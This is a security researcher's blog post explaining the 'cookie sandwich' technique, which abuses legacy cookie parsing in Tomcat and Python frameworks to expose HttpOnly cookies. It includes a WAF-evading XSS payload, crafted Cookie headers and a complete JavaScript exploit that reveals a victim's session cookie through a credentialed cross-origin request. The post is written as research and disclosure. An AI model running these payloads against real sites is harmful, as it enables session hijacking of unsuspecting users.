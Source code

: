 ```yaml
---
title: Stealing HttpOnly cookies with the cookie sandwich technique
draft: false
date: 2025-05-31
tags:
  - cookies
  - xss
---
```


In this post, I will talk about the "cookie sandwich" trick. It can help you get around the HttpOnly flag on some servers. This is based on the idea from "[Bypassing WAFs with the phantom $Version cookie](https://portswigger.net/research/bypassing-wafs-with-the-phantom-version-cookie)." If you look closely, old cookies let you put special characters in the cookie value. We will use this in this post.

## Cookie sandwich

The cookie sandwich trick changes how web servers read and use cookies when special characters are in them. By using quotes and old cookies in a smart way, someone can trick the server into misunderstanding the cookie header. This could let client-side scripts see HttpOnly cookies.

#### How It Works:

Chrome doesn't support old cookies. This lets attackers make a cookie name that starts with a $, like $Version, from JavaScript. Also, you can put quotes in any cookie value. Here's how to make a cookie sandwich to steal a restricted cookie value:

```bash
document.cookie = `$Version=1;`;
document.cookie = `param1="start`;
// any cookies inside the sandwich will be placed into param1 value server-side
document.cookie = `param2=end";`;
```

The Cookie header in the request/response might appear as:

```http
GET / HTTP/1.1
Cookie: $Version=1; param1="start; sessionId=secret; param2=end"
=>
HTTP/1.1 200 OK
Set-Cookie: param1="start; sessionId=secret; param2=end";
```

How Apache Tomcat reads cookie headers:

- The parser uses both
  [RFC6265](https://datatracker.ietf.org/doc/html/rfc6265) and
  [RFC2109](https://datatracker.ietf.org/doc/html/rfc2109) standards. If a string starts with the special
  [$Version](https://github.com/apache/tomcat/blob/4111137da8712add015a4193da0f7d4d9248941e/java/org/apache/tomcat/util/http/parser/Cookie.java%23L147) attribute, it uses the old way of reading it.

- If a cookie value starts with double quotes, it reads until the next double quote that isn't canceled out.

- It also un-does any character that starts with a backslash (\\).

If the application shows the param1 cookie in the response and doesn't have the HttpOnly attribute, the whole cookie string can be seen. This includes any HttpOnly session cookie sent by the browser between param1 and param2.

Python frameworks support quoted strings by default, so you don't need the special $Version attribute. These frameworks also know that the semicolon separates cookie pairs. They automatically change all special characters into a four-character sequence: a forward slash followed by the three-digit octal number for the character. A "cookie sandwich" attack against a Flask application might look like this:

```http
GET / HTTP/1.1
Cookie: param1="start; sessionId=secret; param2=end"
=>
HTTP/1.1 200 OK
Set-Cookie: param1="start\073 sessionId=secret\073 param2=end";
```

## Real world example

Analytics often use cookies or URL parameters to watch what users do. They don't always check the tracking ID. This makes them a good target for the cookie sandwich attack. Usually, when a user visits a site for the first time, the server makes a random string called **visitorId** and puts it in cookies. This **visitorId** is then shown on the webpage for analytics:

```js
<script>
{"visitorId":"deadbeef"}
</script>
```

This can cause problems. If an attacker can see the webpage content, they can get around the HttpOnly cookie flag. This can be done through a [CORS](https://portswigger.net/web-security/cors) request with credentials or an XSS attack.

### Stealing an HttpOnly PHPSESSID cookie

In a test, I found an application with an [XSS](https://portswigger.net/web-security/cross-site-scripting) problem on an error page. I was able to use it to steal an HttpOnly PHPSESSID cookie. I had to get around some security and use a tracking domain problem that was missed.

#### Step 1: Finding the XSS Problem

The application showed certain link and meta attributes without properly cleaning them. This let me put in JavaScript code because the server didn’t properly clean the user input. AWS WAF was being used, but it could be gotten around because of a problem
[oncontentvisibilityautostatechange](https://x.com/garethheyes/status/1854191120277733760). Thanks to [@garethheyes](https://x.com/garethheyes) who helped me with that trick:

```html
<link
  rel="canonical"
  oncontentvisibilityautostatechange="alert(1)"
  style="content-visibility:auto"
/>
```

#### Step 2: Finding the Exposed Cookie Parameter

I could run JavaScript on the page. My next goal was to find an HttpOnly cookie linked to the domain. I didn’t find any analytics JavaScript right away. But I discovered a tracking domain that showed the session ID parameter in the JSON response. This tracking endpoint accepted a session parameter in the URL:

```http
GET /json?session=ignored HTTP/1.1
Host: tracking.example.com
Origin: https://www.example.com
Referer: https://www.example.com/
Cookie:  session=deadbeef;
```

```http
HTTP/2 200 OK
Content-Type: application/json;charset=UTF-8
Access-Control-Allow-Origin: https://www.example.com
Access-Control-Allow-Credentials: true
{"session":"deadbeef"}
```

This website is a good one to use in our attack because:

- it shows the cookie value in the response
- it allows cross origin request from the vulnerable domain

#### Step 3: Using Cookie Downgrade to Steal Information

This tracking application did something interesting. The session URL query parameter is needed, but the server changes its value with the one from the Cookie header. The backend runs on Apache Tomcat, so I used the phantom \$Version cookie to switch to
[RFC2109](https://datatracker.ietf.org/doc/html/rfc2109) and do a cookie sandwich attack. But a problem remained: controlling the order of cookies in the client's request. The $Version cookie had to be sent first. To do this, it had to be created earlier or have a path attribute longer than all other cookies. We can't control when the victim's cookie is created, but we can change the path attribute. The path chosen was /json.

I used a carefully made Cookie header to change the order of cookies and steal the HttpOnly PHPSESSID cookie. Here’s an example of the bad request I used:

```http
`GET /json?session=ignored
Host: tracking.example.com
Origin: https://www.example.com
Referer: https://www.example.com/
Cookie: $Version=1; session="deadbeef; PHPSESSID=secret; dummy=qaz"
```

```http
HTTP/2 200 OK
Content-Type: application/json;charset=UTF-8
Access-Control-Allow-Origin: https://www.example.com
Access-Control-Allow-Credentials: true
{"session":"deadbeef; PHPSESSID=secret; dummy=qaz"}
```

#### Step 4: Putting It All Together

Here’s how the attack works:

- The user visits a page with the oncontentvisibilityautostatechange XSS payload.

- The JavaScript sets cookies $Version=1 and session="deadbeef. Both cookies have Path value /json to change the cookie order.

- Finally, the script adds the cookie dummy=qaz".
- The script then makes a CORS request to the tracking application endpoint. This
  shows the changed PHPSESSID cookie in the JSON response.
  Final exploit:

```js
async function sandwich(target, cookie) {
  // Step 1: Create an iframe with target src and wait for it
  const iframe = document.createElement("iframe")
  const url = new URL(target)
  const domain = url.hostname
  const path = url.pathname
  iframe.src = target
  // Hide the iframe
  iframe.style.display = "none"
  document.body.appendChild(iframe)
  // Optional: Add your code to check and clean client's cookies if needed
  iframe.onload = async () => {
    // Step 2: Create cookie gadget
    document.cookie = `$Version=1; domain=${domain}; path=${path};`
    document.cookie = `${cookie}="deadbeef; domain=${domain}; path=${path};`
    document.cookie = `dummy=qaz"; domain=${domain}; path=/;`
    // Step 3: Send a fetch request
    try {
      const response = await fetch(`${target}`, {
        credentials: "include",
      })
      const responseData = await response.text()
      // Step 4: Alert response
      alert(responseData)
    } catch (error) {
      console.error("Error fetching data:", error)
    }
  }
}
setTimeout(sandwich, 100, "http://example.com/json", "session")
```

With this method, I could get access to the other user session cookie from the JSON response. I used XSS, cookie changes, and the tracking application’s problem.

## Recommendation

Cookie security is important for protecting web applications from attacks. Pay
attention to how cookies are coded and read. Understand how cookies are processed by
the frameworks and browsers you use. Apache Tomcat versions 8.5.x, 9.0.x and 10.0.x
support [RFC2109](https://datatracker.ietf.org/doc/html/rfc2109).
